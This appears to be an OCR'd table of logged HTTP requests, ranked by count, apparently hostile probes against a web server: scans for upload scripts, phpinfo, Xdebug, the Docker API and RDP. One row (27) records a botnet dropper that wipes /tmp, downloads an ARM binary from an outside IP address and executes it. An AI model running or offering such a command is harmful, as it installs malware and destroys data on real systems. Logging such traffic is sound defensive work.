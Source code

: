 |  15 |                     6 | GET /upl.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                            |
|  16 |                     6 | GET /form.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                          |
|  17 |                     6 | GET /t4 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                 |
|  18 |                     5 | GET /_profiler/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                  |
|  19 |                     5 | GET /geoserver/web/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                     |
|  20 |                     5 | \x03\x00\x00/*\xE0\x00\x00\x00\x00\x00Cookie: mstshash=Administr                                                                                                                                                                                                                                                                                                                                                 |
|  21 |                     5 | GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                     |
|  22 |                     4 | GET /admin/assets/js/views/login.js HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                     |
|  23 |                     4 | GET /containers/json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                    |
|  24 |                     4 | GET /redirectLoginGet.json?timeStamp=1715076379286 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                      |
|  25 |                     4 | GET /geoip/geoip.inc HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                    |
|  26 |                     4 | GET /hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                              |
|  27 |                     4 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                                                                                                                                                                                                    |